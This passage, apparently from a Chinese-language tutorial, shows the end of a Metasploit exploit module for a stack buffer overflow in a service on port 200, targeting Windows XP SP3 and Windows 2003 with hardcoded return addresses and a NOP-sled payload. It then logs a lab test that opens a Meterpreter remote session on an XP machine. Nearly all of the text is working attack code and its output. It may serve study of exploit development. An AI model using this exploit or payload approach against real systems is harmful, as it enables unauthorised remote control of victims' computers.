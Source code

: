 	                        'Targets'        =>
	                                [
	                                        ['Windows XP SP3 CHS',
	                                          { 'Ret' => 0x71a22b53, 'Offset' => 504 } ],
	                                        ['Windows 2003 Server R2 SP2',
	                                          { 'Ret' => 0x71c02b67, 'Offset' => 504  } ],
	                                ],
	                        'DefaultTarget' => 0,
	
	                        'Privileged'     => false
	                        ))
	
	                        register_options(
	                        [
	                                Opt::RPORT(200)
	                        ], self.class)
	       end
	
	       def exploit
	          connect
	
	          junk = make_nops(target['Offset'])
	          sploit = junk + [target.ret].pack('V') + make_nops(50) + payload.encoded
	          sock.put(sploit)
	
	          handler
	          disconnect
	
	       end
	
	end

在xpsp3上的测试：

	msf exploit(server) > set RHOST 192.168.10.130
	RHOST => 192.168.10.130
	msf exploit(server) > set payload windows/meterpreter/bind_tcp
	payload => windows/meterpreter/bind_tcp
	msf exploit(server) > exploit
	
	[*] Started bind handler
	[*] Sending stage (769024 bytes) to 192.168.10.130
	[*] Meterpreter session 2 opened (192.168.10.129:50459 -> 192.168.10.130:4444) at 2014-04-07 20:46:05 +0800
	
	meterpreter > sysinfo
	Computer        : CHINA-CE09C2DA6
	OS              : Windows XP (Build 2600, Service Pack 3).
	Architecture    : x86
	System Language : zh_CN
	Meterpreter     : x86/win32
